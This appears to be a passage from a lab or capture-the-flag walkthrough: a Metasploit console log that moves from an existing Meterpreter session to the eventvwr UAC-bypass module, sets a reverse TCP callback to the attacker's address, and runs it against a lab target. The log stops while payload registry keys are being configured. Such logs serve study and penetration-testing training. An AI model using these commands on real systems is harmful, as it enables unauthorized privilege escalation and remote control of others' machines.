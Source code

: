 ```
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/icecast_header) > search exploit/windows/local/bypassuac_eventvwr

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/windows/local/bypassuac_eventvwr  2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
   1    \_ target: Windows x86                  .                .          .      .
   2    \_ target: Windows x64                  .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/local/bypassuac_eventvwr                                                   
After interacting with a module you can manually set a TARGET with set TARGET 'Windows x64'

msf6 exploit(windows/http/icecast_header) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, no
                                        ne)
   LHOST     192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/bypassuac_eventvwr) > set lhost 10.8.162.183
lhost => 10.8.162.183
msf6 exploit(windows/local/bypassuac_eventvwr) > set rhosts 10.10.97.79
rhosts => 10.10.97.79
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
```